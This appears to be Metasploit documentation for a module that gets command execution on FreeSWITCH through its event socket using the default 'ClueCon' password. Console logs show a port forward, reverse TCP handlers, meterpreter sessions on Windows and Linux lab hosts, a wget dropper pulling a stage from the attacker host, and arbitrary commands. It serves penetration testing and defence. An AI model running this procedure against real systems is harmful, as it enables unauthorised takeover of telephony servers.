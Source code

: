 ## Description

  This module uses the FreeSWITCH event socket interface
  to execute system commands using the `system` API command.

  The event socket service is enabled by default and listens
  on TCP port 8021 on the local network interface.


## Vulnerable Application

  [FreeSWITCH](https://freeswitch.com) is a free and open-source software defined
  telecommunications stack for real-time communication, WebRTC, telecommunications,
  video, and Voice over Internet Protocol.

  The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket)
  `mod_event_socket` is a TCP based interface to control FreeSWITCH and is enabled by default.

  The default values are to bind to 127.0.0.1 port 8021 and the default password is `ClueCon`.

  This module has been tested successfully on FreeSWITCH versions:

  1.6.10-17-726448d~44bit on FreeSWITCH-Deb8-TechPreview virtual machine;
  1.8.4~64bit on Ubuntu 19.04 (x64); and
  1.10.1~64bit on Windows 7 SP1 (EN) (x64).

  Source and Installers:

  * [Source Code Repository](https://github.com/signalwire/freeswitch)
  * [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
  * [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/freeswitch_event_socket_cmd_exec`
  3. Do: `set rhosts <ip>`
  4. Do: `set rport <port>` (default: `8021`)
  5. Do: `set password <password>` (default: `ClueCon`)
  6. Do: `set target <target>`
  7. Do: `run`
  8. You should get a session


## Options

  **Password**

  The password for the event socket. (default: `ClueCon`)


## Scenarios

### Windows PowerShell Target

```
msf5 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.242)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 2
target => 2
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (310 bytes) ...
[*] Sending stage (180291 bytes) to 172.16.191.242
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:50706) at 2019-11-02 17:31:33 -0400

meterpreter > getuid
Server username: TEST\user
meterpreter > pwd
C:\Program Files\FreeSWITCH
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```


### Linux Dropper Target

```
msf5 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 1
target => 1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmdstager::flavor wget
cmdstager::flavor => wget
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (150 bytes) ...
[*] 127.0.0.1:1234 - Using URL: http://0.0.0.0:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Local IP: http://172.16.191.165:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Client 172.16.191.172 (Wget/1.16 (linux-gnu)) requested /WuWvURUHveqo5
[*] 127.0.0.1:1234 - Sending payload to 172.16.191.172 (Wget/1.16 (linux-gnu))
[*] Sending stage (985320 bytes) to 172.16.191.172
[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (120/120 bytes)
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.172:42478) at 2019-11-02 17:34:59 -0400
[*] 127.0.0.1:1234 - Server stopped.

meterpreter > getuid
Server username: uid=999, gid=999, euid=999, egid=999
meterpreter > pwd
/
meterpreter > sysinfo
Computer     : 172.16.191.172
OS           : Debian 8.5 (Linux 3.16.0-4-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```


### UNIX Generic Command Target

```
msf5 > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 0
target => 0
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmd "id; uname -a"
cmd => id; uname -a
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set verbose true
verbose => true
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (12 bytes) ...
[*] 127.0.0.1:1234 - Response: Content-Type: api/response
Content-Length: 159

uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
Linux freeswitch-vm 3.16.0-4-amd64 #1 SMP Debian 3.16.36-1+deb8u1 (2016-09-03) x86_64 GNU/Linux

[*] Exploit completed, but no session was created.
msf5 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > 
```
